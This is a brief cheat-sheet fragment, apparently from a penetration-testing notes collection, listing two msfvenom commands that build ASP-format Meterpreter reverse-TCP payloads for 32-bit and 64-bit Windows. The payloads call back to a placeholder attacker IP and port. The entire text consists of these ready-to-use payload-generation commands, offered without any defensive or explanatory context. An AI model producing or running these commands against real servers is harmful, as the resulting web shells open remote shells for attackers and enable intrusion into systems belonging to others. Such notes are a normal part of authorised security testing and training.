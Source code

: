 # ASP

- x86 (32-bit) Payloads

`$ msfvenom -p windows/meterpreter_reverse_tcp lhost=<IP> lport=<PORT> -f asp -o met-x86.asp`

- x86-64 (64-bit) Payloads

`$ msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=<IP> lport=<PORT> -f asp -o met-x64.asp`
